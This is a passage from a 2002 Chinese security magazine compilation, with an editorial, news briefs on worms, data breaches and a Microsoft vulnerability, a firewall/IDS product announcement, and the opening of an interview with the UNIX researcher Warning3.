# 黑客防线2002合订本（三）第一部分

---

## 黑客防线

3CD  
26.00元

## 2002年第三季度合订本

www.hacker-defence.com

## 妙哉！注册码丢失，凭重安全

现在的电脑给人有一种离不开的感觉，不是今天突然遭到这个病毒突袭，就是明天受到那个黑客攻击，电脑一刻都不得安宁，仿佛家常便饭一样了。为了应对此类危机，使电脑“坚固”起来，本文向大家介绍一下通过修改注册表的方法，来提高系统的安全。


#### 教菜鸟找到 QQ 代理的端口号

使用代理服务器可以使得网友上网更加快速、安全，不过要在茫茫网海中找到一个好的、免费的代理却非常困难。有人甚至发明了在网上自己做代理的方法。本文作者知识很聪明，他利用现有的网络知识来自己寻找别人使用的代理服务器，这种方法值得大家来学习、推广和借鉴。

## 灰斑伸向 QQ 的 3 只黑手

### QQ 防黑篇



- “黑客”破解全攻略
- 动手建造自己的黑客网站
- 入侵系统是常用的方法
- 从一次简单的局域网入侵看网络安全
- 当修改浏览页面被恶意修改之四大邪招

#### 预防和解决上网被“黑”的几种方法

HTML 语言在网页制作上应用广泛，其中的一些特性得到广大多数朋友的支持。不过朋友在浏览网页时经常会发生一些意想不到的情况，例如：恶意修改域名等。Internet 发展的同时……因此预防和解决这类问题已很有必要。



## 卷首语

### 永远的“在线黑防”

“七月流火”中仿佛还留有世界杯足球赛热浪的余温，《黑客防线》又迎来了改版后的第二次热卖。从第 6 期次改版后读者的反应来看，我们的工作得到了广大热情读者的肯定，收到了非常好的效果。

作为我们办刊改革步骤的重要一环，酝酿多时的《黑防》在线编辑部在试运行一段时间后终于在本期杂志的制作中正式登场，发挥主角作用。当然稿件内容质量的优劣还有待于读者来品评，但有一点可以肯定的是：我们搭建在网络空间的在线编辑部，集合了全国乃至于全世界的精英来共同编好这本杂志，这就是我们的希望所在。

那么说到“在线编辑部”，很多朋友对此恐怕仍然是一个很模糊的概念，不过我想大家应该听说过“SOHO 一族”，其实“在线编辑”一定程度上可以说是 SOHO 办公的延伸和扩展。由于现在 Internet 的飞速发展、宽带的普及，上网已经是非常方便。作为编辑部，我们的目的是服务于读者，将最新、最好、最实用、最前沿、最流行的技术第一时间带给读者。那么在现实的编辑部中间，我们的力量远远不够，因此，我们推出在线编辑部，实实在在做到“取众家之长，补一己之短”。这就是我们的希望所在。

但是“在线编辑”也并不是人人可以胜任。从字面上来看，做到在线应该不难，但是作为编辑就有所要求。编辑要有一份责任心，要有自己的思想，要有很好的文笔，要有丰富的作者群体。虽然我们在线编辑之间可能从未谋面，但是完全能够融洽地合作，身在天南海北却可以心系黑防，关心黑防，将“黑防”当作自己的一份事业来奋斗。这就是我们的希望所在。

对于“在线编辑”来讲，可以是一位网安人员，也可能是一位学生，还可能是一位有职业的安全爱好者。我们提供一个公开的平台，给大家一个机会，一个挑战自我的机会，一份积累经验、学习进步的机会，一个向更高层次晋升的机会。所以，我们的编辑力量是无穷的，我们的编辑队伍是无可比拟的，因为，他们源自于最广泛的读者群体，这就是我们的希望所在。

最后说说本期杂志的焦点人物：继上一期开始的“网络安全界名家系列访谈”刊出第一位焦点人物“袁哥”之后，本期我们再一次将关注的目光锁定在另一位国内“网安”技术至尊，也是中联绿盟核心技术骨干——“Warning3”的身上。作为国内 UNIX 网络安全技术特别是漏洞分析的顶尖级人物，本篇专访将重点向读者展示其辉煌研究成果与精彩技术人生背后鲜为人知的艰辛与苦痛，更希望通过本文可以呈现这位“技术狂人”日常生活的真实侧面。

也正是由于“在线编辑部”的实行，我们接触“安全巨子”的机会一个接一个。以后的日子，我们还会将小四、冰河、天行、shotgun……带入到我们的生活中来。


### 最大文档交换网络

#### Kazaa 首次受到病毒侵袭

5 月 17 日，有人报告发现了 Benjamin 蠕虫。该蠕虫对数据的破坏性不大，它不删除信息，只是狂吃硬盘空间，使得数据传输通道受阻，让 Kazaa 网络用户的通讯出现困难。

Benjamin 病毒的传播方式是：创建对 Kazaa 网其他用户开放的目录，然后在这个目录里使用病毒自身携带的名称列表大量（可能数以千计）地进行复制。当网络用户搜索的名称刚好和病毒携带的假名相同时，用户就在不知不觉中从被感染的电脑上下载了病毒。

一旦被下载以后，Benjamin 病毒发出一个假错误报告，警告用户文件可能已被破坏，然后它却在系统目录里面自行复制，并在系统注册表里面创建两个键。

该病毒很容易清除，只要删除被感染文件即可。反病毒软件厂商已经更新了他们的产品来侦测该病毒。

### 大水冲了龙王庙

#### 过滤器封杀自家邮件

AT&T 公司宽带网部门为高速互联网用户提供了电子邮件过滤器，以阻止用户不需要的垃圾邮件。可是，后来发现，这个电子邮件过滤器性能太好，连该公司自己通知用户费率涨价的电子邮件都过滤掉了。

AT&T 公司发言人 Steve Kipps 5 月 20 日承认了这个问题，他表示，现在还不清楚有多少用户受到了影响。这位发言人说：“如果还有优点的话，就是我们的垃圾邮件过滤系统看起来工作得太好了，甚至连自己公司的大批电子邮件都删除了。”

### 微软承认 Windows 调试软件

#### 存在安全漏洞

微软公司在 5 月 22 日公布的安全公告中表示，Windows 操作系统用于调试运行中程序的应用软件存在安全漏洞，它使攻击者有机会控制被感染机器上的应用程序。

微软表示，这种漏洞影响的操作系统包括 Windows NT 4.0 Server 和 Windows 2000 两种操作系统。它使攻击者可以利用该调试程序所用认证系统的某个缺陷，控制某个程序，并使用该程序来启动其它的程序。攻击者要达到此目的，还需要登录被感染的机器并且执行代码的特权。但是，攻击者一旦进入被感染的电脑，他就可以在该调试程序所处的同一安全环境下执行任何命令。

微软公司表示，通过限制用户登录关键任务服务器的能力和禁止用户运行代码，可以把这个漏洞带来的影响最小化。

### 微软推出符合反垄断协议的

#### Win XP 补丁软件

美国旧金山时间 5 月 24 日（北京时间 5 月 24 日）消息，根据美国司法部与微软公司去年十月就微软垄断案达成的和解协议，计算机制造商将可以在选择微软竞争对手软件方面拥有更大的灵活度。下个星期，符合上述协议的第一件微软产品将问世，它就是 Windows XP 操作系统的一款补丁软件——服务工具包 1。到 8 月底，这款软件将正式向公众出售。

### 赛过防火墙，网络数据隔离

#### 传输器更有效防黑

兰州易博文公司日前成功开发出一种防止“黑客”和“病毒”入侵的网际实时数据传输专用设备，它比目前广泛使用的防火墙、入侵检测系统具有更高安全保障。

新开发的网际数据隔离传输器是解决专用网络和公共网络物理隔离、并进行实时数据传输的专用设备，能保证被隔离的专用网络在任何时刻都不能被其他网络访问。该设备集安全操作系统、内核级入侵检测、先进的病毒隔离技术、身份认证、访问控制和安全审计等安全模块为一体，用软、硬一体化的安全机制转发内外网之间的数据，对需要传输的数据都进行严格的检查和过滤，保证内部网络与外部网络安全物理隔离的同时，实现高速实时数据交换。

### 黑客入侵加州电脑系统

#### 政府雇员数据被曝光

美国加利福尼亚州政府发言人称，四月份有黑客入侵了州政府的计算机系统，有将近 26.5 万名政府雇员的财务及个人敏感数据被曝光。

这一瞄准政府雇员薪水及档案的电子攻击是由加州首府萨克拉门托的一支高科技网络警察发现的，不过他们表示，所有被曝光的数据至目前为止还没有被用作非法用途。尽管如此，这支包括萨克拉门托州政府警察及 FBI 在内的网络特种部队已开始了对这一黑客攻击事件进行大范围的调查，正在全力搜捕肇事黑客。

### 国外一电子商务网站被黑

#### 客户重要数据被盗

据来自国外的消息报道，一家经营在线电子商务的网站 TheNerds.net 日前遭到黑客的入侵，众多客户的信用卡及账号等重要数据被盗。该站点经营人员已在周三将此事向美国联邦调查局（FBI）报告，要求提醒信用卡公司及广大顾客警惕。

TheNerds.net 的首席执行官 David Kriegstein 表示，他们正在估计 10 万顾客中有多少人受到此次黑客事件的影响。有消息透露，目前已有顾客收到黑客直接发来的电子邮件，而公司方也开始正式通知客户他们的信用卡帐号、家庭地址及电话号码可能已被盗。

### 微软 SQL 蠕虫愈演愈凶

#### 荣升病毒攻击排行榜首

安全专家日前表示，最近在互联网上传播、专门攻击存在缺陷的微软数据库的 SQL 蠕虫已迅速超过前辈“红色代码”及“尼姆达”，成为近段时间攻击电脑最厉害的病毒。

自从 5 月 20 日，SQLsnake 蠕虫，也叫 Spida 及 Digispid，首次露面以来，就一直在扫描成千上万台与 Internet 相连的电脑系统的 1433 端口，企图寻找运行微软 SQL 且没有在系统管理员帐号上设置适当密码的系统。

据安全公司 Dshield.org 对北美洲站点的统计数字来看，过去五天，1433 端口受到的攻击占到 56%，而 80 端口只有 11%，相去甚远。在亚洲，这种情况更为严重，有 66% 的攻击指向 1433 端口，12% 瞄准 80 端口。另据入侵报告显示，1433 端口近日有 41% 被入侵过，而 80 端口为 23%。

### 一奥地利青年在网上捕获

#### 美国军事机密文件

一奥地利青年进入美国国防部网站，获得了一份美国绝密军事文件。

科威特通讯社今天引用奥地利一家报纸的报道说，该青年 17 岁，他在浏览网站的时候，打开了有密码的美国军事指挥部关于核武器的机密文件，从而在美国情报机构引起了巨大震动和恐慌。

报道没有透露该青年的具体身份，只是详细报道了机密文件的内容。该绝密文件是由美国总统布什和俄罗斯总统普京在最近的莫斯科峰会上两人签署的减少核弹头的一份协议。

### 网络安全企业聘黑客为

#### 反黑专家

随着互联网黑客攻击活动的日益猖獗，包括网络安全公司在内的很多企业都专门聘请了曾经当过黑客的反黑专家，但他们却很少有人愿意被任命为“首席黑客官（CHO）”，因为黑客的名字毕竟贬意超过褒意。尽管如此，一些从事网络安全研究的前黑客却并不在乎被称为 CHO，他们还表示，企业为了能够防范黑客的攻击，聘请 CHO 是十分必要的。

### 北京市展开互联网信息

#### 安全大检查

6 月 4 日北京市组织了最大规模的联合执法检查。经检查，FM365、新浪、TOM 部分栏目中因含有有害信息链接，其相关栏目被停机整顿，同时接受行政处罚；而网易、焦点、首都在线等单位网站部分管理出现漏洞，被限期整改。

这次检查针对北京地区包括新浪、搜狐、网易、FM365、焦点、TOM、中华网、首都在线和瀛海威时空等 9 家网站，重点检查各单位电子公告栏、留言板、聊天室、个人主页和 FTP 服务等网上服务栏目中的各类有害信息问题；监督、指导其建立健全安全制度和安全措施。

### “2002 年中国信息安全产业

#### 发展汇报展”在京举行

由中国信息产业商会、《计算机安全》杂志社主办的“2002 年中国信息安全产业发展汇报展”于 2002 年 6 月 6 日至 8 日在北京革命军事博物馆隆重举行，众多信息安全界单位参加了此次汇报展。此次展会的指导单位是国家信息化领导小组办公室与国家信息产业部，并得到了国家密码管理委员会办公室、中国人民解放军保密委员会办公室、公安部公共信息网络安全监察局以及中共北京市委保密委员会办公室等多家政府信息安全管理职能部门的支持协办。与以往商业技术展会最大的不同是，由于信息安全产业与国家、政府及企业利益都密切相关，所以此次展会受到政府管理部门的高度重视，可以说有着浓重的政府参与背景，反映了信息安全产业在整个中国信息产业中已占据相当重要的地位，越来越受到来自社会各界的普遍关注与重视。


本次信息安全发展汇报展集中展示了几年来中国信息安全产业的发展历程与现状，汇集了国内外信息安全企业的最新信息安全技术产品与研究成果。参展单位除了国家信息产业的相关政府职能部门外，唱主角的当然还是各个信息安全企业，展出的内容基本涵盖了信息安全产业的所有技术领域，其中被关注的热点当然还是以互联网为中心的网络信息安全技术。中联绿盟、启明星辰等国内各大网络安全技术公司都不失时机地展示推出了自己最新开发的网络安全软硬件产品及技术。纵观本次展会，参展单位在层次上有着不俗的实力与权威性，同时也有较高的技术含量，也预示了国内网络安全良好的发展前景。而作为 2002 年第一场展示中国信息安全产业成果的盛会，相信此次汇报展将对推动中国信息安全产业加速健康发展起到积极重要的作用。

### SmartProtector 横空出击


### LinkTrustTM CyberWall 如虎添翼

著名信息安全技术与服务提供商安氏互联网安全系统有限公司（IS-One）日前宣布推出嵌入该公司防火墙产品“LinkTrustTM CyberWall”的入侵检测系统模块“SmartProtector”，并将于 2002 年第 3 季度正式为用户供货。

SmartProtector 的主要功能为：基于攻击特征分析和协议分析，检测并阻断防火墙无法防止的攻击，与防火墙互动修改相应的防火墙规则，同时通过控制台报警。SmartProtector 可以检测包括：拒绝服务、端口扫描、Web IIS、Web Apache、DNS、FTP、SNMP 等等多种攻击。每个攻击特征都符合 CVE 标准，并且支持在线升级。用户还可以自定义检测策略模板，紧密结合特有安全的领信操作系统 LTOS，拥有超负载保护能力。用户还可以随时从安氏站点（www.is-one.net）下载最新的攻击特征。

关于 SmartProtector 的推出，安氏公司产品市场总监应向荣强调：“SmartProtector 的产生基于两个层面考虑：1、融合安氏在入侵检测（IDS）技术的多年雄厚积累，为 LinkTrustTM CyberWall 提供增强功能模块。2、增加 SmartProtector 功能的领信防火墙为特定需求用户群提供了业界领先的一站式安全防御系统，特别适合企业上网工程、行业网络广域连接防护等等应用。但 SmartProtector 不能取代专门的入侵检测系统，它以不牺牲防火墙和 VPN 的性能为前提，检测并响应‘严重的’攻击手法，配合防火墙以及专门的 IDS 系统，为企业提供更加强大的防护体系。用户在购买 LinkTrustTM CyberWall 时可以选择是否增加 SmartProtector 功能模块。”

“现在安全问题变得越来越复杂，攻击手法层出不穷，而且更新很快，这要求安全管理员作出防范反应越来越迅速，在防火墙上增加入侵检测模块，就是为了增强响应时间，特别是在解决类似‘红色代码’、‘尼姆达’这类突发性极大的将网络蠕虫、计算机病毒、木马程序合为一体的攻击手法时，将发挥相当大的作用。”安氏公司防火墙产品经理张迅进一步解释，“当 SmartProtector 检测到攻击时，可以阻断并且传递给领信防火墙，修改防火墙的安全规则，同时领信防火墙阻断已经建立的攻击连接。通过一个基于 WEB 的友好、简洁明了的用户界面，安全管理员不仅可以配置该 SmartProtector 的攻击特征模板，还可以通过提供的链接，了解到更多关于攻击的资料以及如何配置相应的系统设备来防御攻击。每个检测到的攻击，将会通过日志告警与邮件告警方式通知管理员，同时为 SmartProtector 定制了专门的审计日志数据结构，包含：攻击时间、源地址、目的地址、源端口、目的端口、攻击名称。”



关于 LinkTrustTM CyberWall 安氏领信防火墙，它是亚洲最大的安全信息实验室“IS-One Security Lab”成功推出的最新一代防火墙，产品迅速获得国家认证，被中国人民银行评选为金融系统指定防火墙产品之一，并且在第 21 届世界大学生运动会、上海 APEC 会议上大显身手。

领信防火墙的设计理念从“顶尖技术 + 人性化”出发，充分考虑防火墙的五大要素：功能、性能、管理能力、易用性和配置，体贴用户的真正安全需求。

领信防火墙采用专门设计的安全操作系统 LTOS 和专用搭载平台，提供高度可靠性和可用性。利用安氏安全实验室申请专利 LinkTrust Polling 技术，提升防火墙的吞吐速度，达到内核级安全代理机制，是国内唯一在线状态下工作的最新一代防火墙。安氏安全实验室采用多种先进数据加密算法，最大限度提高 VPN 吞吐量。领信防火墙具有业界唯一的端口流量镜像功能，实现与业界最先进的入侵检测系统互动；并为用户提供友好 Web 管理界面、命令行管理界面和 LCD 界面。

领信防火墙的特色包括：

- 状态检测包过滤技术
- 多种服务的内核级安全代理
- 全面的网络地址翻译（NAT）
- IPsec VPN 和拨号 VPN
- 高可靠性（HA）
- 支持流量管理、内容安全过滤
- 多种用户认证方案
- 完整日志、审计、告警和统计模块
- 抗 DOS 攻击能力（支持 SYN Proxy）
- 内嵌入侵检测能力
- 支持多个 ISP 接入的负载均衡解决方案
- 支持诡异木马的抵御
- 对 ICMP 攻击免疫
- 基于时间的对象访问控制
- 支持按策略与 IDS 协作

### “Warning3”——网络安全的警示者

#### 访中联绿盟信息技术公司左磊


本刊记者 / 秦丁可

### 左磊小传

左磊，男，27 岁。中联绿盟信息（北京）技术有限公司任研发部总监、CIW Security Professional，具备深厚网络安全研发功底，负责对多种国内外著名的安全产品的测试项目，主持负责绿盟“冰之眼入侵检测系统”的开发工作，长期从事网络安全的深层研究。并著有大量网络安全专著，特别对基于 UNIX 操作系统的安全问题研究有着极深的造诣与丰富实践，“Solaris 2.6 IN.FTPD CWD 用户名猜测漏洞”、“UNIX 系统 locale 格式字符串漏洞”、“inews 缓冲区溢出漏洞”、“Cxterm 的漏洞”、“FreeBSD 内核溢出攻击”等大量 UNIX/LINUX 系统安全问题的发现者，深谙各种黑客攻击手法以及防御手段，在对各种防火墙、入侵检测系统等安全产品的测试方面有丰富经验。

有点英文基础的人都知道“Warning”是“警告”的意思，而有点计算机网络安全基础的人也多数会知道“Warning3”是国内网络安全技术界顶尖级人物左磊的网名！

说起“Warning3”网名的来历，想必有一种凭借字面意思的揣度。“Warning”是“警告”，那加上 3 就该是“警告 3 次”了，所谓事不过三嘛，而这看似合理的分析经求证名字主人后才知完全是种不明就里的想当然。其实此名的妙处不在“Warning”，而在其后那个不起眼的“3”。当年左磊发现一个网站存在被攻击安全隐患后，准备就此给该站网管发一封善意的警告信，提醒其及时修补防范。由于他还没有合适的网名与电邮账号，就先到 HOTMAIL 上去注册。第一次他以“Warning”注册个人账号，但邮件服务器系统马上告知此名已存在，请改名；于是按多数网友的习惯，第二次他以“Warning1”注册，孰料又被告知重名；于是第三次以“Warning2”再试，谁想到依然遭到执著的拒绝。这一来，令左磊哭笑不得的同时也激起了他的“拧劲儿”，又以“Warning3”为名发起第四次“冲击”，结果这次真应了那句“事不过三”：注册成功！于是“Warning3”从此就成为左磊一直沿用不变的网名。因日后他在网络安全界的成名，这个名字也随之变得比其真名更为人熟知。

### 与 UNIX 的不解之缘

要讲“Warning3”其人其事，还必须先说说 UNIX，因为“Warning3”这个名字与 UNIX 是密不可分的。可以说，“Warning3”在中国网络安全界的至尊声望与 UNIX 在计算机科学技术领域的不朽地位是相匹的，他为完善这一古老经典的计算机操作系统的网络安全性能所作的贡献也有目共睹。

众所周知，微软 Windows 系列产品的商业运作比其本身的技术创新还要成功，比尔·盖茨这位颇有争议的“上帝宠儿”确实创造了一个商业神话，他让全世界很多不用电脑的人都知道了有一个“Windows”的东西。虽然这个“窗口”在电脑业界刚打开不过短短数年，相反，UNIX 这个“古董”却曲高和寡，因为在以“鼠标”指点“图形界面”IT 江山的今天，众多天天泡网的新新人类对“UNIX”一词闻所未闻，更不知道那是一个操作系统。经典与流行是两个不同的概念，在多元化与市场化的时代，优胜劣汰，完全取决于人们需求的自由选择。无论你是否喜欢微软，如果你已习惯了图形界面的操作环境，那 Windows 当然是首选；而如果你是个技术的狂热追求者与传统的“卫道士”，那么在 UNIX 的 SHELL 命令行中的每一次键盘输入也会带给你无尽的快感，当然现在还有了 LINUX 这一集传统与现代优点之大成的另类选择。但经典就是经典，经典是由时间来定义和证明的，UNIX 卓越非凡的稳定表现与网络性能，决定了其在互联网服务器及企业级网络应用中不可撼动的地位。但选择并研究经典则需要一定的修养与驾驭能力，一种平和稳健、甘于寂寞的学术心态，卓而不群成绩的背后是对心智和毅力的艰苦磨砺与考验，“Warning3”选择了 UNIX，也就选择了一条艰辛孤独的研究之路。

在中联绿盟公司一间静谧的会议室里，Warning3 语气舒缓地开启被岁月尘封的旧事：

1997 年国际互联网在国内刚刚兴起，那时的 Warning3 还在合肥中国科技大学就读，学的也是非计算机专业——机电一体化。对正钻研 UNIX 操作系统的他来说，互联网无疑是一个取之不尽的学习资源，同时也令他开始了对网络安全的特别关注。

最初他在科大自学 UNIX 操作系统的日子是艰苦的。开始阶段是自己到书店买一些关于 UNIX 的书看，但由于 UNIX 没有 Windows 系统这么普及，相对来说 UNIX 的书也很少，所以可供选择的学习资料，特别是那种很符合自己学习方向的参考教程很难找。后来有了互联网，就开始在网上特别是国外 UNIX 技术网站查找学习资料。那时，国内上网的人还远没有现在这么多，Warning3 最初接触了一些国外安全网站的邮件列表，了解到网络安全相关的技术内容，继而又看了不少国外的黑客网站，进一步激发起对网络安全的浓厚兴趣。但上网对 Warning3 来说也不是件容易事儿，首先当时在学校以及后来工作的东方电子没有提供上网条件，又没有一个 UNIX 操作系统环境可供学习研究，怎么办呢？只好跑到外面找。他工作所在地域烟台的网吧也不普及，再加之花销也很大，不可能长时间地上。好在那时常有国家电信部门为推广客户上网而开办一些免费试用的上网场所，但“免费的午餐”是不可能让你舒舒服服地尽情吃个饱的，每次排很长时间的队，每人也只能上网半个小时。没办法，为了有足够时间尽可能多地搜集 UNIX 的学习资料，半个小时一到只好出来再次加入到排队等候“试用”的长龙之中。很多节假日，他一整天的时间就用在了这种排队上网的过程中。

Warning3 的这段经历不禁让我联想起袁哥当年在校期间因条件艰苦而“手刃”千行汇编代码的壮举，我相信在网络安全的求知道路上，Warning3 所付出的努力和劳动也必然是艰苦卓绝的，如果说网络安全技术水平达到一个极高层次要得益于勤奋加天赋的话，我宁愿相信前者所占的成分更多一些。而在亲自采访 Warning3 以及袁哥之前，我还一直以为主要是天赋造就了他们令人称奇的超人技艺，与他们接触之后，我的这个观点发生了很大的改变：原来再聪慧的大脑也必须经历反复的甚至是痛苦的思考磨炼才可能与世间奥秘碰撞出耀目的神奇火花。我再次感受到什么是成功背后的艰辛与寂寞。思考的过程是痛苦的，也是永恒的，与之相比，每一次成功与失败的结果都是另一个思考过程的开始。在与 Warning3 谈及系统漏洞分析研究的过程中，他几次用了“痛苦”这个字眼，也谈到了做这项工作要能“吃苦”，虽然他是用一种无可奈何的诙谐语气在讲这两个词，但我对此却印象格外深刻，因为我知道，不管他如何轻描淡写地对此事一带而过，但“痛苦”一定是个真实的过程与心理感受。

“你要问我如何才能在网络安全技术方面取得一定的成绩，我的回答很简单，除去每个人的一些不同条件与环境机遇等客观因素外，能吃苦肯钻研一定是个最共同最基本的条件与素质，因为这是一项很枯燥的研究工作，需要很长的时间、极大的精力去阅读分析大量源代码，常有百思不得其解乃至不得其门而入的苦闷，有时你会感到很无助，因为没有人能帮你，甚至任何可借鉴的先例与他人经验也没有，只能靠自己思考，那真可以用‘痛苦’两字来形容。当然，一旦经过努力有所发现或最终找到解决答案，那种兴奋与成就感也是常人体会不到的，你会觉得一切辛苦付出都是值得和有意义的。只要有恒心和毅力长期坚持下去，不断地摸索与总结积累经验，就一定会取得成绩。其实做别的工作与学术研究也是一样的道理。”Warning3 如是说。

要论在 UNIX/LINUX 系统特别是 SUN 公司 Solaris 系统漏洞分析与发现方面的能力与成绩，Warning3 理应占有当仁不让的至尊地位，在网上搜索引擎键入“Warning3”后全都是 UNIX/LINUX 相关系统漏洞的分析论文文章：

- 《Solaris 2.6 IN.FTPD CWD 用户名猜测漏洞》
- 《UNIX 系统 locale 格式字符串漏洞浅析》
- 《inews 缓冲区溢出漏洞》
- 《Cxterm 的漏洞分析》
- 《FreeBSD 内核溢出攻击》
- 《RedHat man 缓冲区溢出漏洞》
- 《Qualcomm qpopper 远程溢出漏洞》
- 《Bind 8.2.x 堆栈信息泄漏以及 TSIG 单字节溢出》

等等数不胜数。“Warning3”的首次牛刀小试还是在他从科大毕业前后，当时热衷上 BBS 的他偶然间在一个名为火鸟的 BBS 站点上发现了其 POP3 远程溢出问题，从此一发而不可收拾。在 UNIX/LINUX 系统下的各种漏洞中，对“溢出”的分析是 Warning3 的拿手好戏，普通“堆栈溢出”之类对他说已是一种入门级必备的基础东西，现在已转向兴趣很浓的“堆溢出”“格式串溢出”等方面的研究及经验总结。经过对“Solaris”系统的长时间研究，Warning3 现在对该系统最易出隐患的地方已很熟悉，凡有诸如环境变量或参数过长以及该做的限制没有做的地方都是 Warning3 查找漏洞的重点突破口，可以说对这些系统规律的了如指掌、丰富的经验再加之敏感的洞察分析能力，使现在 Warning3 的分析研究更有针对性及效率。当然，由于 SUN 公司并没有全部公布其系统源代码，也就决定了他的分析更多情况下只能采取半靠经验半靠灵感的“黑箱测试”，沿着大方向“摸着石头过河”。说到这个艰难过程，Warning3 再次用到了“痛苦”一词，看着他微笑无奈地说这两个字儿时，我相信，真正的痛苦可不是说说而已。

图为 Warning3（右）在接受采访中

令“Warning3”更为“痛苦”的是那段没有系统环境可用甚至上网都很困难的日子。在东方电子上班的时候，所用的电脑一不能上网，二没有 UNIX 和 LINUX 环境，而计算机技术学习最讲究实践出真知，总凭看书，理论知识再多不上机实践也不能真正掌握，更何况是网络安全技术，没有实验环境，无异于纸上谈兵。过了一段“无机可用”的日子，“Warning3”再也无法忍受，于是用大量 3.5 寸软盘拷贝了一套 LINUX 装在了公司电脑上。那时刻录机与 CD-R 盘对他来说还是一种奢侈品，可令他无法忍受的事情还在继续发生，经常在系统已安装至一半要求插入第 N 张盘时，这张盘发生读写错误！“别提多郁闷了，软盘真是不可靠，总爱坏，用了不知有多少张，但是当时又没有别的办法拷系统，也只能用它。”抚今追昔，Warning3 对那段“艰苦岁月”没齿难忘，感慨良多，“回想起当时条件虽然不好，但很珍惜，现在公司的研发条件差不多可谓应有尽有了，可以 24 小时专线上网，各种系统测试环境与工具也一应俱全，真有天壤之别。”

## UNIX 与 Windows“比较测评”之 Warning3 版

作为国内 UNIX 系统安全的专家，Warning3 对 UNIX 操作系统的研究与熟知程度已达到相当高的层次，所以他对 UNIX 系统优缺点的了解以及 UNIX 与 Windows 的比较评价应是很有发言权的。“首先就系统稳定性而言，UNIX 的表现无疑是极其优秀的，几乎不存在死机现象，有也是几率极低，仅此一点就极胜任企业服务器的角色。而且除了对 UNIX 系统内核进行重新编译，其他情况下，无论对系统进行什么添加、删改或配置都不需要重启系统。当然了，在这一点上 Windows 系统现在也已做了很大的改进，重启系统情况越来越少，但似乎还未完全做到与 UNIX 相同的水平。”

